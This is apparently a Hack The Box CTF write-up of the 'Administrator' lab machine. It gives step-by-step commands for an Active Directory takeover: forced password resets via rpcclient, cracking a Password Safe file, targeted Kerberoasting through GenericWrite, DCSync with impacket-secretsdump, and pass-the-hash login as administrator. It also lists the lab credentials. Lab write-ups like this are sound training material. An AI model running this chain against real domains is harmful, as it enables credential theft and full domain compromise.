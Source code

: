 ```yaml
---
date: 2025-04-03
categories: [CTF, HTB]
title: "HTB - Administrator - AD Breach"
tags: ['bloodhound', 'ftp', 'hashcat', 'impacket', 'nmap', 'privilege escalation', 'python', 'rce', 'secretsdump', 'smb', 'windows']


description: "Administrator - AD Breach - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Administrator - AD Breach

We are given the following account to start with:
Username: **Olivia**
Password: **ichliebedich**

NMAP

![image1](../resources/50e46876cd2243c5875f4d000d2a5a48.png)

- Check creds:
```bash
crackmapexec smb 10.10.11.42 -u "olivia" -p "ichliebedich"

```

![image2](../resources/07a7fbc74a9a4430b6acaec81089d3f5.png)

- WinRM in:
```bash
evil-winrm -i 10.10.11.42 -u "olivia" -p "ichliebedich"

```

![image3](../resources/a330f4d2344c4dd2bd8b5737b26aa317.png)

- Run BloodHound:
```bash
bloodhound-python -c all -d administrator.htb -dc dc.administrator.htb -u olivia -p "ichliebedich" -ns 10.10.11.42

```

![image4](../resources/5df522cb9cd34b5da1316b10b77b064f.png)


![image5](../resources/954e4fc6fde94791ae772fb6549e1e9b.png)


![image6](../resources/eeb16fc489d347299848ff00c4ca39e7.png)


![image7](../resources/1994c18fafa741a2b1bdc8b5ebcb1142.png)

- Change passwords for users:
```bash
rpcclient -U 'administrator.htb/olivia%ichliebedich' 10.10.11.42

setuserinfo2 michael 23 'Password1'

rpcclient -U 'administrator.htb/michael%Password1' 10.10.11.42

setuserinfo2 benjamin 23 'Password1'

```
- We can remote in with Michael:

![image8](../resources/1c7be244480341b89c095e84a2595fe7.png)

And he has PowerView in his Documents folder

- Moving on - We changed Benjamin's password as well

- He can't remote in
- Shares doesn't show anything special

- But he can log in to the ftp server:
```bash
ftp 10.10.11.42

```

![image9](../resources/f6d47ff05f304409a87a88cfd036ebf7.png)

- We get a psafe3 file:
Password Safe V3 database


![image10](../resources/09335f53afec4e53b04fc16c7c05893d.png)

- Searching online, we see hashcat can crack it without extracting the hash first:

![image11](../resources/1dca03b18a0943eb85b6320b3c30e589.png)

```bash
hashcat -m 5200 -a 0 Backup.psafe3 /usr/share/wordlists/rockyou.txt

```

![image12](../resources/d46253ec2a934d048f1846eaa8e059f7.png)

**Backup.psafe3 : tekieromucho**

- Download and open file in PasswordSafe:

![image13](../resources/c2694de1375d4f34a49ef15c7f993483.png)


![image14](../resources/9ae4d9e735e54f0d9011796a26fa8333.png)

alexander : UrkIbagoxMyUGw0aPlj9B0AXSea4Sw

emily : UXLCI5iETUsIBoFVTj8yQFKoHjXmb

emma : WwANQWnmJnGV07WQN8bMS7FMAbjNur

- We have Emily's password --\> which has **GenericWrite** over Ethan --\> Which can DCSync

**<u>From Windows</u>**
- Upload PowerView.ps1 and run:
```bash
. .\Powerview.ps1

Set-DomainObject -Identity **ethan** -Set @{serviceprincipalname="SPN/**ethan**"}

```

![image15](../resources/fb6763e2b8584240a8e3cf5bc12ff489.png)

```bash
Remove the SPN After Obtaining the Hash:

Set-DomainObject -Identity target_user_samaccountname -Remove @{serviceprincipalname="SPN/targetuser"}

sudo ntpdate -u 10.10.11.42

impacket-GetUserSPNs administrator.htb/emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb -dc-ip 10.10.11.42 -request

```

![image16](../resources/5cf2fd9fc0434402a1958344e7cfa61d.png)

**<u>Or from KALI:</u>**
[TargetedKerberoast:](https://github.com/ShutdownRepo/targetedKerberoast?tab=readme-ov-file)

```bash
python3 targetedKerberoast.py -d administrator.htb -u emily -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" --dc-ip 10.10.11.42

```

![image17](../resources/ad38bf2545734ff7a752129f45ce9067.png)

```bash
hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

```

![image18](../resources/c12e2f812bec4aa8b0b6ca0855ed03d5.png)

**ethan : limpbizkit**

- Ethan has DCSync rights:
```bash
impacket-secretsdump administrator.htb/ethan:limpbizkit@10.10.11.42

```

![image19](../resources/d8f1510a09554b059fa8c03c14745b2d.png)

```bash
evil-winrm -i 10.10.11.42 -u "administrator" -H "3dc553ce4b9fd20bd016e098d2d2fd2e"

```

![image20](../resources/1e9bb9cf9b1441a284f28afe15c0c11e.png)